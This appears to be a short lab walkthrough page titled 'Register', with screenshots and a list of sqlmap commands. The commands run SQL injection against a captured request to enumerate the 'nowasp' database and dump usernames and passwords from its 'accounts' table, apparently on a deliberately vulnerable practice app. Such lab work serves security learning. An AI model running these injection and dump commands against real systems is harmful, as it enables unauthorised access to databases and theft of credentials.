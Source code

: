 #### Register

- Demo

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

- Commands

```sh
python sqlmap.py -r req.txt --threads=10 -f
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL --dbs
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp --tables
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts --columns
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts --dump
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts -C username,password
```